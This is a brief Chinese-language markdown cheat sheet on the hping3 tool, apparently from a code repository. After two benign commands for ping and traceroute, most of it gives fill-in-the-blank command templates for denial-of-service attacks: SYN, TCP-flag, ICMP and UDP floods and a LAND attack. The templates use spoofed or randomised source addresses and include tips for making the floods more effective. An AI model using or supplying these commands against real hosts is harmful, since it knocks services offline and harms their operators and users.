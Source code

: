 # Hping3工具的使用

- **ICMP测试**
  - `hping3 -1 xxx`   等同于Ping命令

- **数据包追踪**
  - `hping3 --traceroute -V -1 xxx`
- **DDOS攻击**
  - SYN Flood攻击
    - `hping3 -c 连接数 -d 数据包大小 -S -p 目标端口 --flood --rand-source 目标ip//其中--rand-source表示随机发信源地址`，添加-P：PUSH  -U：置为紧急可以提高效率
  - TCP Flood攻击
    - `hping3 -SARUPF -p 目标端口 --flood --rand-source 目标ip`
  - ICMP Flood攻击
    - `hping3 -q -n -d 数据包大小 --icmp-flood -a 指定发信源地址 目标ip//-q安静模式 -n不解析域名`
  - UDP Flood攻击
    - `hping3 --udp -s 6666 -p 目标udp端口 --flood 目标ip//-s指定要发送的udp信息`
  - LAND攻击
    - `hping3 -n -S -p目标端口 -a 指定发信源地址 --flood 目标ip`
